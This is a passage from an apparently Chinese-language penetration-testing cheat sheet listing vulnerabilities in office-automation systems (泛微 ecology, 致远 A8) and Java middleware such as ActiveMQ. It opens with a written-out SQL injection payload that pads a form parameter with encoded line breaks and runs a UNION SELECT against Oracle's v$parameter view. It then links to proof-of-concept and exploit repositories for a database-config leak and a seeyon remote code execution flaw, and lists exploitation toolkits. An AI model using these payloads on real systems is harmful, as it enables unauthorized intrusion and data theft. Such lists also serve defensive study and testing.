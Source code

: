    formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
    ```

**泛微ecology OA系统接口存在数据库配置信息泄露漏洞**
- POC | Payload | exp
    - [jas502n/DBconfigReader](https://github.com/jas502n/DBconfigReader)

---

## 致远 OA
**A8-OA-seeyon-RCE**
- 文章
    - [致远A8协同办公系统poc/seeyon 0day](https://www.jianshu.com/p/562f45edde2d)

- POC | Payload | exp
    - [RayScri/A8-OA-seeyon-RCE](https://github.com/RayScri/A8-OA-seeyon-RCE)

---

# 框架和中间件
**toolkit**
- [hatRiot/clusterd](https://github.com/hatRiot/clusterd)
- [matthiaskaiser/jmet](https://github.com/matthiaskaiser/jmet) - Java Message Exploitation Tool

## ActiveMQ

Apache ActiveMQ 是美国阿帕奇 (Apache) 软件基金会所研发的一套开源的消息中间件,它支持Java消息服务、集群、Spring Framework 等。

**CVE-2015-5254 ActiveMQ 反序列化漏洞**
- 简述
